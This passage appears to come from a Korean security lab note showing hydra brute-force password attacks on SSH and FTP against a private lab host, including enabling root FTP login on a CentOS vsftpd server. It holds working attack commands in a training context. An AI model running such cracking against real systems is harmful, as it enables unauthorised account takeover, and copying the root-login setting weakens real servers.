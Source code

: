   - 유저이름 사전 파일 생성

    ```
    # vim /root/user.txt
    ```

    ![화면 캡처 2022-10-25 201250](../../assets/img/화면 캡처 2022-10-25 201250.png)

  - hydra 를 이용한 패스워드 크래킹 ssh 

    ```
    # hydra -L user.txt -P passlist.txt ssh://172.16.0.110
    ```

    ![화면 캡처 2022-10-25 201304](../../assets/img/화면 캡처 2022-10-25 201304.png)

  - hydra 를 이용한 패스워드 크래킹 ftp

    ```
    centos]
    
    설치
    # yum -y install vsftpd
    
    root 들어가도록 허용
    # vim /etc/vsftpd/ftpusersp
    # vim /etc/vsftpd/user_list
    ```

    ![화면 캡처 2022-10-25 201747](../../assets/img/화면 캡처 2022-10-25 201747.png)

    ![화면 캡처 2022-10-25 202430](../../assets/img/화면 캡처 2022-10-25 202430-1666697121783-65.png)

    ```
    # service vsftpd restart
    ```

    ```
    ┌──(root㉿kali)-[~]
    └─# hydra -L user.txt -P passlist.txt ftp://172.16.0.110
    ```

    ![화면 캡처 2022-10-25 202217](../../assets/img/화면 캡처 2022-10-25 202217.png)

    


